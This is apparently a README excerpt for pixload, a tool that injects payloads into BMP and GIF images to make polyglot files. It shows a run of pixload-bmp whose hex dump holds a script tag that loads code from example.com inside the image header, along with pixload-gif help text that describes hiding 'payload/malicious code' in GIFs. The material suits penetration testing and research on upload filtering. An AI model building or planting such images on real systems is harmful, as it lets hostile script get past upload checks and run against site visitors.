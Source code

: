 ##### Example

```sh
$ pixload-bmp payload.bmp
```

```
...... BMP Payload Creator/Injector ......
..........................................
... https://github.com/sighook/pixload ...
..........................................

[>] Generating output file
[✔] File saved to: payload.bmp

[>] Injecting payload into payload.bmp
[✔] Payload was injected successfully

payload.bmp: PC bitmap, OS/2 1.x format, 1 x 1 x 24, cbSize 10799, bits offset 26

00000000  42 4d 2f 2a 00 00 00 00  00 00 1a 00 00 00 0c 00  |BM/*............|
00000010  00 00 01 00 01 00 01 00  18 00 00 00 ff 00 2a 2f  |..............*/|
00000020  3d 31 3b 3c 73 63 72 69  70 74 20 73 72 63 3d 2f  |=1;<script src=/|
00000030  2f 65 78 61 6d 70 6c 65  2e 63 6f 6d 3e 3c 2f 73  |/example.com></s|
00000040  63 72 69 70 74 3e 3b                              |cript>;|
00000047
```

See [pixload-bmp(1)](https://github.com/sighook/pixload/blob/master/pixload-bmp.1.pod)
manual page for more information.

### pixload-gif

##### Help

```sh
$ pixload-gif --help
```

```
Usage: pixload-gif [OPTION]... FILE
Hide payload/malicious code in GIF images.

Mandatory arguments to long options are mandatory for short options too.
  -W, --pixelwidth  INTEGER   (has no effect)
                              set pixel width for the new image (default: 10799)
  -H, --pixelheight INTEGER   set pixel height for the new image (default: 32)
  -P, --payload     STRING    set payload for injection
  -v, --version               print version and exit
  -h, --help                  print help and exit

The option -W, --pixelwidth has no effect since pixload-gif rewrites
pixel width bytes with "/*" characters, to prepare the polyglot gif image.

If the output FILE already exists, then the payload will be injected into this
existing file. Otherwise, the new one will be created with specified pixels
wide.
```
